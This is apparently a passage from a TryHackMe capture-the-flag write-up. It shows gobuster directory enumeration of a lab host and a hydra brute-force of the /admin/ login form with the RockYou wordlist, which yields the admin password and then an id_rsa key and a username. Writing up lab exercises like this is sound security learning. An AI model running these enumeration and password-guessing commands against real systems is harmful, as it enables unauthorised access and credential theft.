 > `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://x.x.x.x`

Interesting folders found:

```python
/admin                (Status: 301) [Size: 314] [--> http://10.10.176.145/admin/]
/server-status        (Status: 403) [Size: 278]
/panel                (Status: 301) [Size: 320] [--> http://10.10.176.145/admin/panel/]
```

Also see: [gobuster.log](gobuster.log) and [gobuster-admin.log](gobuster-admin.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Interesting info found:

```python
TBD                                   
```

Also see: [nikto.log](nikto.log)

### Running: `hydra`

When we see that `gobuster` found a `/admin/` URL, we View Source of the page and see that the username is `admin`. So, for giggles, lets send `hydra` trying the RockYou passwords for account `admin` on that login form:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
    $TARGET http-post-form \
    "/admin/:user=^USER^&pass=^PASS^:F=invalid" -I 2>&1 | tee $ROOM/hydra.log
```

Sure enough, we find the password:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-12 20:54:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.176.145:80/admin/:user=^USER^&pass=^PASS^:F=invalid
[80][http-post-form] host: 10.10.176.145   login: admin   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-12 20:55:02
```

We can now log into the `/admin/` website portal where we have an `id_rsa` file, and also the web flag for the TryHackMe room. We also get a potential username `john`.

Also see: [hydra.log](hydra.log) and [id_rsa.txt](id_rsa.txt)
